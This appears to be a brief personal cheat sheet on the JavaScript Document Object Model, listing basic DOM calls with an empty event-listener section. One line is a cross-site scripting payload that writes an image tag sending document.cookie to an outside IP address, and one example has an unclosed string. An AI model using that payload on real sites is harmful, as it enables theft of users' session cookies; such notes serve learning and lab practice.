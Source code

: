 # Document Object Model (DOM)

### Basics
> console.log("Hello World!);
>
> document.cookie
>
> document.getElementById('1');
>
> document.write('something');
> document.write('<img src="http://10.10.14.13/?'+document.cookie+'">');
> 

### Event Listeners 
>
> 
